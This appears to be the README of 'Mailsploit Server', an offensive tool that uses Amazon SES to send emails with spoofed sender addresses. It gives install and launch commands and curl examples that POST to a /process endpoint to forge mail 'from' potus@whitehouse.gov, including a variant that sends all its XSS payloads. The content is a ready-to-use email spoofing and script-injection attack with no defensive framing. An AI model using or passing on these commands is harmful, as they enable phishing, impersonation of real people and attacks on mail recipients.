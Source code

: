 ![Mailsploit logo](https://raw.githubusercontent.com/pwnsdx/Mailsploit/master/resources/logo.png)

#### Mailsploit Server

*Note*: You will need an Amazon SES account with a verified domain in order to use the tool.

How to install:

1. Clone the repository
2. Edit `originalFrom` in `src/main/Config.ts` with your verified SES email address.
3. Run the following commands in the terminal:
```
yarn install && yarn dist # Require yarn
```
How to launch the web server:

1. Run the following command in the terminal:
```
SES_USERNAME=[Amazon SES Username] SES_PASSWORD=[Amazon SES Password] node dist/commonjs/index.js
```
2. That's it. The server will run on localhost:8081

How to use it:

You can do a POST request containing `sender`, `receiver` and `options` (from 0 to 13) parameters to the `/process` endpoint.

Example using cURL (payload 3 without XSS):

```
curl --url http://localhost:8081/process --data "sender=potus@whitehouse.gov&receiver=sabri@riseup.net&options=2"
```

or, all the payloads with XSS:

```
curl --url http://localhost:8081/process --data "sender=potus@whitehouse.gov&receiver=sabri@riseup.net&xss=true&options=-1"
```